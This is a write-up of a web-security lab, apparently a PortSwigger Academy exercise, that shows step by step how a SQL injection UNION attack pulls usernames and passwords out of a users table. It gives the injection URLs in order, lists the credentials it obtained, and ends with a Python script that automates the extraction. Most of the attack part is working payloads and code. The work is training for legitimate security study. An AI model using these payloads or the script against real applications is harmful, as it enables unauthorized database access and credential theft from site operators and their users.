







# Lab: SQL injection UNION attack, retrieving multiple values in a single column

URL: https://0af5002903b6773d8025d5b3003300b1.web-security-academy.net/

## Sitemap:

URL: https://0af5002903b6773d8025d5b3003300b1.web-security-academy.net/

URL: https://0af5002903b6773d8025d5b3003300b1.web-security-academy.net/product?productId=5

URL: https://0af5002903b6773d8025d5b3003300b1.web-security-academy.net/filter?category=Gifts

<br>

<br>

## SQLi:

URL: https://0af5002903b6773d8025d5b3003300b1.web-security-academy.net/filter?category=Gifts%27



<br>

<br>

## Exploitation:

### Getting a 500 Error:

URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category=Gifts'`



### Getting the number of fields:

URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NULL,NULL--+-`



### Finding the STRING field:

URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NULL,'AAAAAAAA'--+-`



### Getting the version:

URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NULL,cast(version()+as+varchar)--+-`



### Getting username and password:

URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category='+UNION+SELECT+NULL,username+FROM+users--+-`



URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category='+UNION+SELECT+NULL,password+FROM+users--+-`



## Accounts:

carlos:rk5qpdlr463tojelldln
administrator:jpkc9fl8giq4eu5v4exn
wiener:v8v3z7b04uob17on66uj

## Automation:

```python
#!/usr/bin/python3
##
import requests
import re
import pwn
##
Payload1="/filter?category='+UNION+SELECT+NULL,"
Payload2="+FROM+users--+-"
##
##
def get_usernames(URL):
    usernames=[]
    send=URL+Payload1+'username'+Payload2
    r=requests.get(send)
    for X in re.findall("<th>.*</th>",r.text):
        usernames.append( X.split('>')[1].split('<')[0] )
    return usernames
##
def get_passwords(URL):
    passwords=[]
    send=URL+Payload1+'password'+Payload2
    r=requests.get(send)
    for X in re.findall("<th>.*</th>",r.text):
        passwords.append( X.split('>')[1].split('<')[0] )
    return passwords
##
def main(URL):
    usernames=get_usernames(URL)
    passwords=get_passwords(URL)
    print(f"usernames: {usernames}")
    print(f"Passwords: {passwords}")
##
main("https://0a610054030a496b808653c5000d0018.web-security-academy.net")
```
